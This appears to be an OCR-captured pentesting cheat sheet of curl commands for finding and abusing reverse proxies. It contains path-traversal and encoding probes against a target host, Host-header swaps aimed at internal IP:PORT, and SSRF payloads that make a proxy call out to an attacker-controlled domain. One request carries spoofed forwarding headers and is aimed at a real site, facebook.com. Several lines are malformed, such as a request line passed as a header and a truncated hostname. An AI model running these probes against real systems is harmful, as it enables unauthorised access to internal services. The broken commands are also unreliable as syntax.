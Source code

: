 

**Reverse Proxies Identification**

```bash
# Check if /api/.%2f1 returns as /api/1
curl -s 'http://target.com/api/.%2f1' | grep '/api/1'
# Check if /api/1%26 returns as /api/1
curl -s 'http://target.com/api/1%26' | grep '/api/1'
# Check if /api/1%23 returns as /api/1 or an error
curl -s 'http://target.com/api/1%23'
# Check if /api/../ returns result as /
curl -s 'http://target.com/api/../' | grep '/'
# Check if /api/..%2f returns result as /
curl -s 'http://target.com/api/..%2f' | grep '/'
# Check if /api/..%252f returns result as /
curl -s 'http://target.com/api/..%252f' | grep '/'
# Check endpoint in this way /api/group/users → /api/group/users/..%2f..%2f..%2f
curl -s 'http://target.com/api/group/users/..%2f..%2f..%2f' | grep '/'
# Check endpoint in this way /api/group/users → /api/group/users/../../../
curl -s 'http://target.com/api/group/users/../../../' | grep '/'
# Check the behavior of /file.ext/..%2f
curl -s 'http://target.com/file.ext/..%2f'
```

**Vulnerable Reverse Proxies**

```bash
# Change the host of IP lists
curl -s 'http://target.com/?qrt=xyz' -H 'host: IP:PORT'
```

**Tricks**

```bash
# Send request using @attacker-controlled.com
curl -s 'http://host.com' -H 'GET @attacker-controlled.com/ HTTP/1.1'
```

**Payload**

```bash
# Payload example
curl -s 'http://host.com' -H 'GET test.attacker-controlled.com:80/ HTTP/1.1'
```

**All Headers**

```bash
# Example with multiple headers
curl -s 'http://www.facebook.com/?a=a.att.com&a=a.att.com' \
    -H 'host: www.facebook.com' \
    -H 'X-WAP-Profile: http://b.att.com' \
    -H 'Referrer: http://c.att.com' \
    -H 'X-Forwarded-For: d.att.com' \
    -H 'True-Client-IP: e.att.c' \
    -H 'X-Real-IP: f.att.com' \
    -H 'Connection: close'
```
